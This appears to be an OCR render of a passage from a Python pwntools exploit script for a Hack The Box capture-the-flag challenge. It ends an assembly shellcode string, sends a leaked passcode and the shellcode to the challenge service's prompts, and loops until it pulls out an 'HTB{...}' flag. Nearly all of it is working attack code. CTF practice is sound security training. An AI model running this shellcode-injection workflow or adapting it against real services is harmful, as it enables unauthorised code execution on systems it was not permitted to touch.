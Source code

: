 ```python
                    
        cmp ebx,{THRESHOLD_PARAM}
        jb win
    
        dec r14
        jne loopStart
    
        win:
            mov edi,0x1
            mov edx,0x60
    
            xor eax,eax
            mov al,SYS_write
            syscall

''')

assert len(shellcode) <= 80

def exploit():
    global p
    p = conn()

    p.sendlineafter(b'retreat from the daunting path ahead? [y/n]', b'y')
    p.sendlineafter(b'Can you share the crucial passcode that will unlock the mysterious realm\'s exit? ', str(leak_passcode()).encode())
    p.sendafter(b'Can you share the detailed 80-step guide for a systematic path to the exit? ', shellcode)

    return p.recvall()


# moment of truth
log.info(f'Trying with Threshold of {THRESHOLD_PARAM}')
for _ in range(10):
    with log.progress('Flag....') as l:
        ret = exploit()
        
        if ret is not None and b'{' in ret:
            flag = ret[ret.find(b'HTB{'):ret.find(b'}')+1]
            l.success(flag.decode())
            exit(0)
        else:
            l.failure()
            p.close()
            time.sleep(1)
```